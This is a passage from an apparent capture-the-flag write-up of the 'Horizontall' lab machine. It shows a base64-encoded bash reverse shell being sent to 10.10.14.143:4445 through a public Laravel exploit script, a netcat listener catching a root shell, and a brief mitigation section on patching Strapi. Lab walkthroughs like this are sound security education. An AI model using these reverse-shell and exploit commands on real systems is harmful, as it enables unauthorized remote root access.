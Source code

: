 I then tried to launch a reverse shell, but I got some errors about unterminated quotes. I tried to encode them, but it still failed, so I base64 encoded the payload and sent that instead. 

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.143/4445 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDUgMD4mMSAK

python 49424.py http://localhost:2222 /home/developer/myproject/storage/logs/laravel.log 'echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDUgMD4mMSAK | base64 -d | bash'

Exploit...
```

I got the hit on my listener. And to my surprise, I was already root. The Laravel application was running as root. 

```bash
$ nc -klvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.129.89.69 55586
bash: cannot set terminal process group (22276): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# whoami
whoami
root

root@horizontall:/home/developer/myproject/public# ps aux | grep php
ps aux | grep php
root      22759  0.0  0.1  61756  3732 ?        Ss   12:40   0:00 su root -c cd /home/developer/myproject && php artisan serve --port 8000
root      22761  1.3  2.0 321472 41248 ?        Ss   12:40   0:00 php artisan serve --port 8000
root      22769  4.5  2.0 440548 42344 ?        S    12:40   0:00 /usr/bin/php7.4 -S 127.0.0.1:8000 /home/developer/myproject/server.php
root      22785  0.0  0.0  13140   976 ?        S    12:40   0:00 grep --color=auto php

root@horizontall:/home/developer/myproject/public# cd /root
cd /root

root@horizontall:~# ls
ls
boot.sh
pid
restart.sh
root.txt

root@horizontall:~# cat root.txt
cat root.txt
REDACTED
```

## Mitigation

The main issue in that box was that it ran some frameworks with know vulnerabilities. The API was running a beta version of Strapi that had two public vulnerabilities. It's important to keep components up to date. And running a beta in production is risky. 
